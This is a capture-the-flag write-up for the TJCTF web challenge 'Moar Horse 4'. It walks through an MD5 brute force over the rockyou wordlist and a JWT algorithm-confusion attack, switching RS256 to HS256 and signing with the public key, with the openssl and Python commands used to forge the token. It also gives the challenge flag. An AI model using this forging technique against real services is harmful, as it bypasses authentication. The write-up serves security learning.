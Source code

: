 **MOAR HORSE 4** 


**Category:** Web
**Concepts:** jwt, jwt algorithms, md5

**Problem Statement:**
It seems like the TJCTF organizers are secretly running an [underground virtual horse racing platform](https://moar_horse.tjctf.org/)! They call it 'Moar Horse 4'... See if you can get a flag from it!

*source included*
Source includes: server.py(flask), templates, pubkey.pem(public key)

**Hints**
None


![image](../images/mh41.png)

The source is etremely helpful in this one. It reveals 2 things:
1. There is no check on the JWT algorithm while reading. While making the jwt, it uses RS256 algorithm(requires public-private key combination).
2. The horse speed is md5("Horse_" + horsename).

The horse to beat is MechaOmkar-YG6BPRJM. All the horses you can buy through the website generate hash value less than that of MechaOmkar.

The source code tells that the horsenames are taken from the JWT and there is no check on whether those horses are buy-able.

Part 1 Get the horsename: In order to win, I need to have my horse speed > that of MechaOmkar. I ran a python script over good ol' rockyou to do that and got `panchito00`

```python
import hashlib

words = open("rockyou.txt","r").read().split("\n")
for word in words:
	try:
		if int(hashlib.md5(("Horse_" + word).encode()).hexdigest(), 16) > 340282329007027273925800828829408515216:
			print(word)
			break
	except:
		continue
```
Part 2 Forge the JWT: Now I needed to find a way to include this horsename in my jwt and sign it. I had a look at the validate_token function in the source
```python
def validate_token(token):
    try:
        data = jwt.decode(token, PUBLIC_KEY)
        return all(attr in data for attr in ["user","is_omkar","money","horses"]), data
    except:
        return False, None
```
There it was! The function did not check for the token's algorithm and just decoded it based on the public key, and they gave me the public key.
So, I changed the algorithm from RS256 to HS256(easier, 256 bit single key needed to sign as opposed to pub-priv key pair in RS256) and added my panchito00 horse.

Then, to sign the token,
1. Convert the pubkey into ascii text:

 `cat pubkey.pem | xxd -p | tr -d "\\n"`


2. Generate signature:
 
 `echo -n <unsigned modified JWT> | openssl dgst -sha256 -mac HMAC -macopt hexkey:<ascii text of the pubkey from step 1>`

 But this signature is ascii

3. Convert signature from ascii to jwt format:

 `python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('db3a1b760eec81e029704691f6780c4d1653d5d91688c24e59891e97342ee59f')).replace('=','')\")"`

4. Sign the token:
 Just append `<unsigned modified JWT>` with . followed by the signature generated.

(The key sigining procedure is much better explained [here](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/))

Now, I replaced the website token with this forged token and my horse got added. Clicked race and my horse won, and I got the flag.


**FLAG:** tjctf{w0www_y0ur_h0rs3_is_f444ST!}



